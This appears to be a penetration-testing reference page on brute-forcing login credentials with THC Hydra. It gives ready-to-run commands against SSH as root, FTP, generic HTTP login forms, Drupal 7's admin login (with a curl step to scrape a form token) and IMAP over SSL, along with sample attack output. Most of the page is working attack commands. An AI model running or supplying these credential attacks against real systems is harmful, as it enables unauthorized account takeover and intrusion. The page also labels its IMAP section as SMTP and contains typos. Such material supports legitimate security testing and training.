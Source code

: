 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:
### Generic HTT POST Form
`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
### Drupal 7
In Drupal 7 we need to first get the form_build_id from the `./user/` directory as so,
```
root@wnl8:~# curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
Alternatively, if this does not provide a string, like, `form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw` for example, then simply hit CTRL+U on the `./user/` page and search for "form_build_id"
Next, we can use Hydra on Drupal as so,
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```
And as you see, I have inserted the Drupal form ID and I am attempting to brute force the `admin` user.

## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`
